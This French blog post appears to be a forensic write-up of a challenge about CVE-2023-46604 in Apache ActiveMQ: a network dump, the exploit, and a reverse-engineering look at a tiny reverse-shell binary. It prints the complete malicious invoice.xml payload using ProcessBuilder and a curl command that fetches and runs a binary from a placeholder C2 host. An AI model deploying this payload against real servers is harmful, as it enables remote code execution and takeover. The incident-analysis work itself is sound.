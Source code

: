 ```yaml
---
title: "Apache ActiveMQ sous la Loupe : analyse d'une CVE"
date: 2024-01-22T22:08:20+02:00
draft: false
---
```


## En résumé

Le challenge consiste à enquêter sur un serveur public signalé par un analyste SOC de niveau 1. Ce serveur émet des connexions sortantes vers plusieurs adresses IP suspectes. L'objectif est d'analyser le dump réseau afin de comprendre ce qu'il s'est passé et la façon dont l'attaquant s'est introduit sur le serveur.

L'attaquant a exploité la [CVE-2023-46604](https://nvd.nist.gov/vuln/detail/CVE-2023-46604) notée 9.8 et publiée fin novembre 2023. Cette faille permet de manipuler la sérialisation des classes Java utilisées dans le protocole de communication [OpenWire](https://en.wikipedia.org/wiki/OpenWire_(binary_protocol)). Cela permet à l'attaquant d'instancier n'importe quelle classe pour exécuter du code distant. Le pirate utilise cette faille pour instancier une class [`ProcessBuilder`](https://docs.oracle.com/javase/8/docs/api/java/lang/ProcessBuilder.html) qui permet de lancer des processus sur le système d'exploitation de la machine. Grâce à cela, l'attaquant contacte son C2, télécharge un reverse shell, lui donne les droits d'exécution et l'exécute :

```bash
curl -s -o /tmp/docker http://<ip C2>/docker; chmod +x /tmp/docker; ./tmp/docker
```

L'attaquant dispose d'un exécutable sur le serveur web qui établi une connection avec lui. Cette vulnérabilité a été utilisée, notamment, pour déployer des cryptominers ou des rootkits. Les impacts sont variés mais dans le cadre d'un cryptominer les performances du système sont impactées, de même que la qualité de service ainsi qu'une usure du matériel prématurée. **Des patchs ont été déployés et les utilisateurs sont invités à mettre à jour leurs systèmes vers les versions 5.15.16, 5.16.7, 5.17.6 ou 5.18.3.** Plus d'information ici : [CVE-2023-46604 (Apache ActiveMQ) Exploited to Infect Systems With Cryptominers and Rootkits](https://www.trendmicro.com/en_us/research/23/k/cve-2023-46604-exploited-by-kinsing.html#:~:text=CVE%2D2023%2D46604%20\(Apache,Systems%20With%20Cryptominers%20and%20Rootkits).

Les investigations nous font remonter jusqu'au programme, que je tente de reverse. Les indices trouvés appuient l'hypothèse d'un reverse shell. On peut résumer les différentes étapes de l'attaque comme suit :

![L'attaquant envoie invoice.xml qui va exploiter la vulnérabilité de OpenWire. L'exploit télécharge le binaire docker qui permet à l'attaquant de prendre le contrôle de la machine.](/img/blog/activemq-cve/infection.png)

<figcaption>L'attaquant envoie invoice.xml qui va exploiter la vulnérabilité de OpenWire. L'exploit télécharge le binaire docker qui permet à l'attaquant de prendre le contrôle de la machine.</figcaption>

## Investigation

Ma méthode, lorsqu'il s'agit de dump réseau, est de commencer par une vue globale. Pour cela, j'utilise Network Miner : 

![Une vue d'ensemble des appareils présents sur le réseau.](/img/blog/activemq-cve/networkminer.png)

<figcaption>Une vue d'ensemble des appareils présents sur le réseau.</figcaption>

A première vue, rien ne semble particulièrement louche. Dans l'onglet `Files`, on observe deux fichiers `invoice.xml` : 

```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg >
            <list>
                <!--value>open</value>
                <value>-a</value>
                <value>calculator</value -->
                <value>bash</value>
                <value>-c</value>
                <value>curl -s -o /tmp/docker http://<ip-C2>/docker; chmod +x /tmp/docker; ./tmp/docker</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

La commande `curl` est manifestement malveillante : elle télécharge un exécutable `docker` depuis un serveur C2, le rend exécutable et l'exécute.

On trouve les traces de ces actions sur Wireshark. Dans ce cas, il n'y a pas beaucoup de traffic et peu d'IPs, cela nous facilite la tâche. On identifie l'adresse IP malveillante. Nous avons donc 2 IPs : 
- celle utilisée par l'attaquant pour envoyer l'exploit
- celle que l'exploit contacte (C2) pour télécharger le reverse shell

![Liste des paquets HTML échangés.](/img/blog/activemq-cve/wireshark.png)

<figcaption>Liste des paquets HTML échangés.</figcaption>

On voit bien ici le trafic réseau de l'attaquant qui envoie la vulnérabilité, cette dernière contacte le C2 et télécharge la charge finale.

## Quels sont les capacités de docker ?

On parle bien entendu du binaire Linux récupéré et non de l'outil de conteneurisation. Puisque ce fichier a été échangé via le réseau, on est en capacité de le récupérer.

Mes compétences en reverse sont limités. Cependant, le fichier étant très petit (250 octets), j'ai décidé de tenter le coup. On observe plusieurs `syscall` Linux : 

- `sys_mmap`
Il sert à créer un mappage entre une région de mémoire virtuelle d'un processus et une ressource physique ou un fichier. Utile pour mapper un fichier en mémoire, allouer de la mémoire ou créer une zone de mémoire partagée.

- `sys_socket`
Il permet de créer un point de communication, ou socket, pour communiquer avec un autre processus sur une machine distante.

- `sys_connect`
Utilisé avec le précédent, il permet d'établir une connection réseau.

- `sys_nanosleep`
Suspend l'exécution du programme.

- `sys_exit`
Termine l'exécution du programme.

La combinaison du syscall de création de socket et de connexion semble bien indiquer un reverse shell. De toute façon, avec 250 octets, le programme ne peut pas avoir de fonctionnalité très avancée. Cependant, il est curieux de constater qu'il n'y a pas d'appel système pour **recevoir** (recv) et exécuter la commande reçue.

## Tricky ASM

Petite parenthèse pour rendre honneur. Un ami plus compétent en reverse, [Matthieu Breuil](https://www.linkedin.com/in/matthieu-breuil/), m'a dit qu'il y avait bien un syscall à `sys_read`, mais il est caché. De ce que j'ai compris de la subtilité, elle se déroule en deux étapes. La première est d'appeller un le syscall `sys_connect` qui renvoie 0 si la connection a réussi.

![Le syscall est appelé et si la connection se déroule sans problèmes, un 0 est renvoyé.](/img/blog/activemq-cve/trick-asm0.png)

<figcaption>Le syscall est appelé et si la connection se déroule sans problèmes, un 0 est renvoyé.</figcaption>

La seconde étape est d'appeller un `syscall`. Or, avec la valeur de retour du précédent `syscall`, qui est 0 si la connexion s'est bien déroulée, on retombe bien sur `sys_read`, car l'entier qui identifie ce call est 0. D'après la documentation de `sys_read`, on peut voir également les paramètres attendus par ce call, comme la taille du buffer de réception (7E).

![D'après l'étape précédente, l'opération syscall appelle celui d'identifiant 0, sys_read.](/img/blog/activemq-cve/trick-asm1.png)

<figcaption>D'après l'étape précédente, l'opération syscall appelle celui d'identifiant 0, sys_read.</figcaption>

On observe ici que l'outil, IDA, se trompe car il identifie cet appel comme `sys_exit` alors que ça n'est pas le cas. D'après Matthieu, le seul moyen possible d'implémenter une obfuscation de ce type est de passer directement par l'assembleur. Dit autrement, il n'est pas possible de coder cela dans un langage haut niveau comme C, Python... Cela nécessite donc des connaissances importantes et un savoir-faire précis.

## Capacités : hypothèses

Il y a également la présence d'une valeur codée en dur : `5C15BE92BB010002`.

- Hypothèse 1 : cette valeur est une clef de chiffrement/déchiffrement pour obfusquer des paramètres du programmes et chiffrer les communications avec le C2.

On peut écarter cette hypothèse car il n'y a pas d'autres chaînes de caractères et il ne semble pas y avoir de fonction de déchiffrement/décodage dans le programme.

- Hypothèse 2 : cette valeur contient les informations de connexions avec le C2 (IP + port + autre chose ?).

Cet "autre chose" pourrait être un identifiant de compromission. Utilisé parfois par les attaquants, un identifiant sert à identifier la victime afin de mieux les monitorer : gardons à l'esprit la volonté d'industrialisation dans ce type d'attaque. Cette hypothèse est plus plausible car ce paramètre est proche de l'appel à `sys_connect`.

![La mystérieuse chaîne de caractère ainsi que l'appel à sys_connect.<](/img/blog/activemq-cve/reverse.png)

<figcaption>La mystérieuse chaîne de caractère ainsi que l'appel à sys_connect.</figcaption>
